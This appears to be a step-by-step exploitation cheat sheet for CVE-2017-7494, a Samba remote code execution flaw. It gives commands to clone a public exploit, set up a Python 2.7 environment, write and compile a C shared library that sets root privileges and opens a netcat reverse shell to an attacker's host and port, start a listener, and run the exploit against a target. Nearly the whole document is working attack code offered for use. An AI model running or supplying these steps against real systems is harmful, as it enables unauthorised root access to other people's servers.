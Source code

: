 ### Clone repo
```
git clone https://github.com/joxeankoret/CVE-2017-7494
```

### Create virtual environment and install dependencies
```
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
pip install pyasn1
pip install pycryptodome
```

### Create reverse shell
```
cd CVE-2017-7494
```

### Open shell.c and insert
```
#include <stdio.h>
#include <stdlib.h>
int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <lhost> <lport> >/tmp/f");
}
```

### Compile
```
gcc -o shell.so -shared shell.c -fPIC
```

### Start listener
```
nc -lnvp <lport>
```

### Run exploit
```
./cve_2017_7494.py -t <rhost> -u <user> -P <password> --custom=shell.so
```

### Or run without user if user not needed for share
```
./cve_2017_7494.py -t <rhost> --custom=shell.so
```

### References
* https://github.com/opsxcq/exploit-CVE-2017-7494  
* https://www.exploit-db.com/exploits/42084  

